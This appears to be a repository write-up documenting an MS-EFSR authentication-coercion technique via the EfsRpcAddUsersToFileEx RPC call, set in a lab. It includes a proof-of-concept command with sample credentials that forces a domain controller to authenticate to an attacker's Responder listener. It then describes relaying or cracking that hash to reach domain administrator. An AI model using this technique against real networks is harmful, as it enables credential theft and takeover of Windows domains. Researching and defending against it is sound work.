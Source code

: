 # MS-EFSR - Remote call to EfsRpcAddUsersToFileEx (opnum 15)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e)

 - **Function operation number**: `15`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\lsarpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcAddUsersToFileEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcAddUsersToFileEx(
    [in] handle_t binding_h,
    [in] DWORD dwFlags,
    [in, unique] EFS_RPC_BLOB* Reserved,
    [in, string] wchar_t* FileName,
    [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **dwFlags**: This MUST be set to a bitwise OR of 0 or more of the following flags. The descriptions of the flags are specified in the following table. If the `EFSRPC_ADDUSERFLAG_REPLACE_DDF` flag is used, then the EncryptionCertificates parameter MUST contain exactly one certificate.

| Name                                    | Value        |
|-----------------------------------------|--------------|
| `EFSRPC_ADDUSERFLAG_ADD_POLICY_KEYTYPE` | `0x00000002` |
| `EFSRPC_ADDUSERFLAG_REPLACE_DDF`        | `0x00000004` |


 - **Reserved**: This parameter is not used. It MUST be set to NULL by the client and ignored by the server.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **EncryptionCertificates**: A list of certificates, represented by an ENCRYPTION_CERTIFICATE_LIST structure, which are to be given access to the object.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcAddUsersToFileEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e